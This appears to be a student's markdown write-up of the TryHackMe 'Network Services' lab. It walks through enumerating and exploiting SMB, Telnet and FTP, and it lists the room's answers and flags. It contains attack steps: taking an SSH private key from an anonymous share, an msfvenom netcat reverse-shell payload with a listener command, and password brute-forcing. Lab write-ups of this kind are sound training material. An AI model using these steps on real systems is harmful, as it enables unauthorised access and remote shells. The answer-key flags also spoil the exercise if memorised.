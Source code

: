 #  TryHackMe - Network Services (Room 015)

<details><summary>Task 1 - Understanding SMB</summary>
<p>

## Task 1.1

### Q: What does SMB stand for?

A: Server Message Block Protocol

## Task 1.2

### Q: What type of protocol is SMB?

A: Response-Request

## Task 1.3

### Q: What do clients connect to servers using?

A: TCP/IP

## Task 1.4

### Q: What systems does Samba run on?

A: Unix

</p>
</details>

<details><summary>Task 2 - Enumerating SMB</summary>
<p>
	
## Task 2.1

### Q: Conduct an __nmap__ scan of your choosing. How many ports are open?

A: 3

![](/Network%20Services/images/nmap.png)

## Task 2.2

### Q: What port is SMB running on?

A: 139/445

## Task 2.3

### Q: Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the WORKGROUP name?

A: WORKGROUP

![](/Network%20Services/images/WORKGROUP.png)


## Task 2.4

### Q: What comes up as the __name__ of the machine?

A: POLOSMB

![](/Network%20Services/images/polosmb.png)

## Task 2.5

### Q: What operating system version is running?

A: 6.1

## Task 2.6

### Q: What share sticks out as something we might want to investigate?

A: profiles

![](/Network%20Services/images/profiles.png)

</p>
</details>

<details><summary>Task 3 - Exploiting SMB</summary>
<p>
	
## Task 3.1

### Q: What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

A: smbclient //10.10.10.2/secret -U suit -p 445

## Task 3.3

### Q: Let's see if our interesting share has been configured to allow anonymous access - that it does not require authentication to view the files. We can do this easily by:

	* using the username "anonymous"
	* connecting to the share we found during the enumeration stage
	* and not supplying a password

Does the share allow anonymous access? Y/N?

A: Y

![](/Network%20Services/images/smbclient.png)

## Task 3.4

### Q: Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

A: John Cactus

![](/Network%20Services/images/john.png)

## Task 3.5

### Q: What service has been configured to allow him to work from home?

A: SSH

## Task 3.6

### Q: Okay! Now that we know this, what directory on the share should we look in?

A: .ssh

## Task 3.7

### Q: This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

A: id_rsa

## Task 3.8

### Q: Download this file to your local machine and change the permissions to 600. Now, use the information you have already gathered to work out the username of the account. Then use the service and key to log-in to the server. What is the smb.txt flag?

A: THM{smb_is_fun_eh?}

![](/Network%20Services/images/ssh.png)

</p>
</details>

<details><summary>Task 4 - Understanding Telnet</summary>
<p>
	
## Task 4.1

### Q: What is Telnet?

<details><summary>Answer</summary>
<p>

A: Application Protocol

</p>
</details>

## Task 4.2 

### Q: What has slowly replaced Telnet?

<details><summary>Answer</summary>
<p>
	
SSH

</p>
</details>

## Task 4.3

### Q: How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

<details><summary>Answer</summary>
<p>
	
telnet 10.10.10.3 23

</p>
</details>

## Task 4.4

### Q: The lack of what means that all Telnet communication is in plaintext?

<details><summary>Answer</summary>
<p>
	
Encryption

</p>
</details>

</p>
</details>

<details><summary>Task 5 - Enumerating Telnet</summary>
<p>
	
## Task 5.1

### Q: How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>

1

![](/Network%20Services/images/nmap2.png)

</p>
</details>

## Task 5.2

### Q: What port is this?

<details><summary>Answer</summary>
<p>

8012

</p>
</details>

## Task 5.3

### Q: This port is unassigned, but still lists the protocol it is using, what protocol is this?

<details><summary>Answer</summary>
<p>

TCP

</p>
</details>

## Task 5.4

### Q: Now re-run the namp scan without the -p- flag. How many ports show up as open?

<details><summary>Answer</summary>
<p>
	
0

![](/Network%20Services/images/closed.png)

</p>
</details>

## Task 5.5 - no answer needed

### Here, we see that by assigning Telnet to a __non-standard port__ it is not part of the common ports list or top 1000 ports that nmap scans. It is important to try every angle when enumerating as the information you gather here will inform your exploitation stage

## Task 5.6

### Q: Based on the title returned to us, what do we think this port could be used for?

<details><summary>Answer</summary>
<p>
	
A backdoor

![](/Network%20Services/images/backdoor.png)

</p>
</details>

## Task 5.7

### Q: Who could it belong to? Gathering possible usernames is an important step in enumeration?

<details><summary>Answer</summary>
<p>
	
Skidy

</p>
</details>

## Task 5.8 - no answer needed

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits

</p>
</details>

<details><summary>Task 6 - Exploiting Telnet</summary>
<p>
	
## Task 6.1 - no answer needed

### Okay, let's try and connect to this telnet port

## Task 6.2

### Q: Great! It's an open telnet connection. What welcome message do we receive?

<details><summary>Answer</summary>
<p>
	
SKIDY'S BACKDOOR

![](/Network%20Services/images/skidy.png)

</p>
</details>

## Task 6.3

### Q: Let's try executing some commands. Do we get a returnon any input we enter into the telnet session (Y/N)

<details><summary>Answer</summary>
<p>

N

![](/Network%20Services/images/run.png)

</p>
</details>

## Task 6.4 - no answer needed

### Q: That's strange. Let's check to see if what we are typing is being executed as a system command

## Task 6.5 - no answer needed

### Q: Start a tcpdump listener on your local machine using `sudo tcpdump ip proto \\icmp -i tun0` - this starts a tcpdump listener specifically listening for ICMP traffic which ping operates on

## Task 6.6

### Q: Now, use the command `ping [local tun0 ip] -c 1` through the telnet session to see if we are able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

<details><summary>Answer</summary>
<p>
	
Y

![](/Network%20Services/images/ping.png)

</p>
</details>

## Task 6.7 - no answer needed

### Q: Great! This means we are able to execute system commands AND that we are able to reach our local machine

## Task 6.8

### Q: We are going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax

	`msfvenom -p cmd/unix/reverse_netcat lhost=10.11.3.112 lport=4444 R`

Flag | Description
------------ | -------------
-p | payload
lhost | our local host IP
lport | the port to listen on
R | export the payload in RAW format

What word does the generated payload start with?

<details><summary>Answer</summary>
<p>
	
mkfifo

![](/Network%20Services/images/mkfifo.png)

</p>
</details>

## Task 6.8

### Q: Perfect. We are nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using

	`nc -vlp [listening port]`

What would the command look like for the listening port we selected?

<details><summary>Answer</summary>
<p>
	
nc -lvp 4444

</p>
</details>

## Task 6.10 - no answer needed

### Q: Great! Now that's running we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully - this will give us a shell on the target machine

## Task 6.11

### Q: Success! What is the contents of flag.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_t3ln3t_fl4g}

![](/Network%20Services/images/telnet_flag.png)

</p>
</details>

</p>
</details>

<details><summary>Task 7 - Understanding FTP</summary>
<p>
	
## Task 7.1

### Q: What communications model does FTP use?

<details><summary>Answer</summary>
<p>
	
client-server	

</p>
</details>	

## Task 7.2

### Q: What is the standard FTP port?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 7.3

### Q: How many modes of FTP connection are there?

<details><summary>Answer</summary>
<p>
	
2	

</p>
</details>

</p>
</details>

<details><summary>Task 8 - Enumerating FTP</summary>
<p>
	
## Task 8.1

### Q: Run an nmap scan. How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>
	
2

</p>
</details>

## Task 8.2

### Q: What port is FTP running on?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 8.3

### Q: What variant of FTP is running on it?

<details><summary>Answer</summary>
<p>
	
vsftpd

![](/Network%20Services/images/vsftpd.png)
	
</p>
</details>

## Task 8.4

### Great! Now that we know that type of FTP server we are dealing with we can check to see if we are able to login anonymously to the FTP server

We can do this by typoing `ftp [IP]` into the console and entering anonymous as the username and no password

What is the name of the file in the anonymous FTP directory?

<details><summary>Answer</summary>
<p>
	
PUBLIC_NOTICE.txt

![](/Network%20Services/images/notice.png)
	
</p>
</details>

## Task 8.5

### Q: What do we think a possible username could be?

<details><summary>Answer</summary>
<p>

mike

![](/Network%20Services/images/notice.png)

</p>
</details>

## Task 8.6 - no answer needed

### Q: Great! Now we have got details about the FTP server and a possible username

</p>
</details>

<details><summary>Task 9 - Exploiting FTP</summary>
<p>
	
## Task 9.1

### Q: What is the password for the user "mike"?

<details><summary>Answer</summary>
<p>
	
password

![](/Network%20Services/images/hydra.png)

</p>
</details>

## Task 9.2 - no answer needed

### Q: Bingo! Now, let's connect to the FTP server as this user using `ftp [IP]` and entering the credentials when prompted

## Task 9.3

### Q: What is ftp.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_ftp_fl4g}

![](/Network%20Services/images/flag.png)

</p>
</details>

</p>
</details>